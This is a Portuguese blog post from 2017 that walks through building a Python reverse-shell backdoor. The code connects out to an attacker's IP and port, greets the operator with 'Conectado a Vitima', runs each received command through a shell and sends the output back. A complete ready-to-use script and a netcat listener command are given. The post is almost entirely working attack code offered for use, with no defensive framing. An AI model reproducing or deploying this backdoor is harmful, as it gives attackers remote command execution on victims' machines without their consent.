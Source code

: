 ```yaml
---
layout: post
title:  "BlackDoor em Python"
date:   2017-12-18
---
```

<figure>
	<img src="{{ '/assets/img/ imagem aqui' | prepend: site.baseurl }}" alt=""> 
	
</figure>
<p class="intro"><span class="dropcap"> S</span>imples "BkacDoor" em python para conexão revessa, você pode usar o NetCat ou criar um servido em python para estar ouvindo o"BkacDor".

<dt>1. vamos importa as bibliotecas necessarias para o funcionamento do BackDoor.</dt> 

{% highlight python %}
#!/usr/bin/python
import socket,subprocess, os
# ou 
import socket
import subprocess
import os
{% endhighlight %}

<dt>2. Antes de começar vamos definir 2 variáveis para a "Porta" é "IP" onde o backdor ira se conectar. </dt>

{% highlight python %}
# Seu Ip ou Ip externo 
HOST = '192.168.1.40'
# Sua porta  
PORT = 90
{% endhighlight %}

<dt>3. Agora temos que definir o tipo de socket, neste caso sera usado o socket do tipo TCP.</dt>

{% highlight python %}
# TCP Socket 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
{% endhighlight %}

<dt>4. Aqui estamos conectando o socket no ip e porta que definimos acima.</dt>
{% highlight python %}
# Conectando ou Ip e a Porta 
s.connect((HOST, PORT))
{% endhighlight %}

<dt>5. Agora vamos enviar uma "mensagem para o servidor indicando que nos conectamos a ele."</dt>
{% highlight python %}
# Mensagem indicando que estamos conectado
s.send('''
        #########################
        [*] Conectado a Vitima !
        #########################
	    \nRoot@Shell>>''')
{% endhighlight %}

<dt>6. Agora vamos criar um "loop" para recebermos comando externos de um servidor. </dt>
{% highlight python %}
while 1:
     data = s.recv(1024)
# Se dermos o comando "quit" paramos o loop 
     if data == "quit": break
# Parte do comando "CD" para navegar melhor.
     if data.startswith('cd'):
          os.chdir(data[3:].replace('\n',''))
          s.send(os.getcwd()+"Root@Shell>>")
     proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     stdout_value = proc.stdout.read() + proc.stderr.read() 
     s.send(stdout_value)
# Fechamos o socket 
s.close()
{% endhighlight %}

<dt> A qui abaixo esta os servidor já pronto é uma imagem dele conectado ao "NetCat"</dt>
{% highlight python %}
#!/usr/bin/python
import socket,subprocess, os
HOST = '192.168.1.40'    # Seu Ip ou No-Ip
PORT = 90                # Sua porta 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
s.send('''
        #########################
        [*] Conectado a Vitima !
        #########################
	    \nRoot@Shell>>''')
while 1:     
     data = s.recv(1024)    
     if data == "quit": break
     # Parte do comando "CD" para navegar melhor.
     if data.startswith('cd'):
          os.chdir(data[3:].replace('\n',''))
          s.send(os.getcwd()+"Root@Shell>>")     
     proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)     
     stdout_value = proc.stdout.read() + proc.stderr.read()
     s.send(stdout_value)
s.close()
{% endhighlight %}

<figure>
	<img src="{{ '/assets/img/socket.png' | prepend: site.baseurl }}" alt=""> 
	<dd>Usando o NetCat Exp:</dd>
	<figcaption>nc -vnlp "90" tem que ser a porta que definimos na variável "PORT" </figcaption>
</figure>





